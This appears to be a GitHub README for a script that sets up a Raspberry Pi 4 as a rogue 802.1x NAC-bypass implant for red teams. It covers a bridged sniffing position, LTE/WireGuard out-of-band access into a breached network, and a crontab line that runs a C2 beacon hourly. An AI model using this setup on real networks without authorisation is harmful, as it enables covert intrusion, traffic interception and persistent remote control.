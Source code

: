 # NAC-RPi4
Bash Script to Initialize a Raspberry Pi 4 for Bridged-based 802.1x (NAC) Bypassing

> Classical 802.1x bypass using Linux bridges. Provides the ability to place a rogue device between a supplicant and authentication server without being detected, and to allow traffic to flow through the rogue device (where it can be sniffed). Network interactivity is provided using Source NAT (SNAT) at Layers 2 and 3.
>
> Defeats 802.1x-2004 only and does not work for 802.x-2010 / MACSEC.

---

## ✨ Features

* **🌐 Wi-Fi Hotspot Creation:** Transforms your Raspberry Pi 4 into a dedicated access point with a custom SSID and WPA-PSK password.
* **📡 DHCP Server Configuration:** Sets up `isc-dhcp-server` to automatically assign IP addresses (192.168.200.2-100) to devices connecting to your hotspot.
* **🔒 SSH Security Hardening:** Overwrites the default `sshd_config` with a more secure setup. This includes disabling password authentication by default (except for your hotspot's subnet) and enforcing stronger ciphers and MACs.
* **⚙️ Static IP for `wlan0`:** Configures a static IP address for the `wlan0` interface (192.168.200.1) using `systemd-networkd` for reliable hotspot operation.
* **👻 NAC Bypass Tool Installation:** Installs and sets up the `nac_bypass` tool for advanced network access control evasion. This involves loading necessary kernel modules, enabling IP forwarding, and cloning the repository.
* **🛡️ Huawei LTE Dongle Setup:** Installs management scripts and systemd services to manage LTE/VPN Out-of-Band (OOB) connections to bypass NAT and allow remote access. Makes use of [Huawei Hilink scripts](https://github.com/zbchristian/huawei_hilink_api) for SIM PIN and LTE connection management. Uses WireGuard for VPN.

---

## ⚠️ Prerequisites

Before running this script, make sure you have:

* **Raspberry Pi 4:** This script is specifically designed for the RPi 4. We assume there is a default wlan0 interface.
* **Kali OS Installation:** For the smoothest experience, start with a fresh Kali Linux ARM image. Tested for `kali-linux-2025.2-raspberry-pi-arm64.img`.
* **Internet Connectivity:** Your Pi needs an active internet connection during the script's execution to download packages and clone repositories.
* **Root Privileges:** The script modifies system files and services, so it must be run with `sudo`.
* **LAN USB Adapter:** For NAC bypassing to work, you must have a second LAN NIC (eth1) besides the native one (eth0). Easily achieved by purchasing a LAN USB adapter like [this one](https://amzn.eu/d/eYJzfUH).

> [!TIP]
> You may want to add a [hardened case with display](https://amzn.eu/d/90DKels) and [LTE USB dongle](https://amzn.eu/d/5NSOiOt). Totally optional though. For the TFT display, you must install the drivers from [here](https://github.com/lcdwiki/LCD-show-kali).

---

## 🚀 Getting Started

Follow these steps to get your Raspberry Pi configured:

### 1. Flash Kali Linux ARM x64 onto your RPi 4

Fetch the Kali Linux ISO and flash it onto your SD Card using RPI Imager.

- https://www.kali.org/get-kali/#kali-arm
- https://github.com/raspberrypi/rpi-imager

>[!TIP]
> Using RPI Imager you can configure a default username and password as well as enable OpenSSH!

>[!WARNING]
> Use a LAN cable and refrain from setting up WLAN.
>
> Please connect all hardware devices to the RPi already (LAN/LTE USB adapters).

### 2. Update

Install latest updates onto your RPi4:

````
sudo apt update && sudo apt upgrade -y && sudo reboot now
````

### 3. Download the Script and Run

You can clone this repository and run the script:

```bash
git clone https://github.com/l4rm4nd/NAC-RPi4 && cd NAC-RPi4
sudo chmod +x provision.sh
sudo ./provision.sh
```

### 4. Reboot

After the script has finished, please reboot your RPI4. You can remove the LAN cable from now on.

### 5. Connect to WiFi Hotspot

The RPi4 will spawn a wifi hotspot with your given SSID and password during installation.

Simply connect to the access point.

A DHCP server will be running, handing out client IP addresses from the range `192.168.200.2 - 100`.

### 6. SSH Access

#### Via WiFi Hotspot

Once connected to the wifi hotspot, you can access the RPi4's SSH network service on TCP/22.

The RPi4 will have the IP address `192.168.200.1`. Just connect with your favorite SSH client (e.g. MobaXTerm).

#### Via LTE + VPN

In case you make use of an LTE connection, you can store your WireGuard client profile at `/etc/wireguard/wg0.conf` and start a VPN connection via `sudo wg-quick up wg0`. Then, the RPi4 will be in the same VPN network as your operators (pentesters, red teamers etc.). This allows remote access into a compromised corporate's network, while using an Out-of-Band (OOB) LTE+Wireguard network channel. The WG VPN is not configured to automatically start. It's up to you to configure this.

I rather configure a C2 beacon to reach out. Works more reliably and no pain with interfaces. 

Put something like this into your crontab:

```
# execute c2 beacon elf file hourly
@hourly nohup /home/username/linux.bin 2>&1 &
```

>[!WARNING]
> SSH uses public key authentication for external networks per default. No password auth.
>
> You can adjust the `/etc/ssh/sshd_config` though and whitelist your VPN IP CIDR range for password authentication. See the last entries in the SSH config regarding `Match Address ...`.

### 7. Adjustments

1. Re-check the OpenSSH configuration at `/etc/ssh/sshd_config`.
2. Re-check the Huawei SIM PIN at `/home/<your-username>/huawei_hilink_api/example_huawei_hilink.sh`.
3. Place your Wireguard client profile at `/etc/wireguard/wg0.conf` and may configure VPN auto-connect after boot.
4. Ensure `legacy` versions are used and not nftables
   - `sudo update-alternatives --config iptables`
   - `sudo update-alternatives --config arptables`
   - `sudo update-alternatives --config ebtables`
5. Ensure kernel module is active
   - `echo br_netfilter | sudo tee -a /etc/modules`

### 8. NAC Bypass

Use the tools `/root/nac_bypass` to your advantage.

May read [this](https://luemmelsec.github.io/I-got-99-problems-but-my-NAC-aint-one/) blog post by LuemmelSec and [this wiki](https://github.com/s0lst1c3/silentbridge/wiki) by Gabriel Ryan to sharpen your NAC bypass understanding.

#### 6.1 - nac_bypass

[README](https://github.com/scipag/nac_bypass)

1. Connect the switch to eth0 (native LAN interface of RPi4)
2. Connect victim (e.g. printer) to eth1 (external USB LAN adapter)

Then start the nac bypass:

````bash
# by default it will treat the lower interface device as switch side, and the next one as victim
./nac_bypass_setup.sh -1 eth0 -2 eth1 -S -R

# script will ask to wait some time, so it is able to dump the needed info from the network traffic
# afterwards, you can proceed and for instance do an nmap scan on the network
````
